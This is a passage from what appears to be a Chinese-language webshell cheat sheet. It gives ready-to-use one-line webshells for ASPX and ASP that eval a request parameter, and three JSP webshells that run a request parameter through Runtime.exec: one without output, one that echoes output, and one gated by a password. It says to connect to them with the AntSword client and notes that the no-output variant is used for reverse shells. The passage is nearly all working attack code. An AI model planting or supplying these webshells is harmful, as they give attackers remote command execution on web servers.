 然后蚁剑连接

### aspx

```
<% @Page Language="Jscript"%><%eval(Request.Item["cmd"],"unsafe");%>
```

### asp

```
<%eval request("x")%>
```

### jsp

#### 无回显

http://localhost:8003/index.jsp?cmd=whoami

不会回显执行的结果只能在后台打印一个地址，常用来反弹shell

```
 <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
%>

```

#### 有回显

```
  <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
//    System.out.println(process);
    InputStream inputStream = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
    String line;
    while ((line = bufferedReader.readLine()) != null){
      response.getWriter().println(line);
    }
  %>

```

#### 有密码有回显

```
  <%
    if ("password".equals(request.getParameter("pass"))){
      Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
//    System.out.println(process);
      InputStream inputStream = process.getInputStream();
      BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
      String line;
      while ((line = bufferedReader.readLine()) != null){
        response.getWriter().println(line);
      }
    }
  %>

```
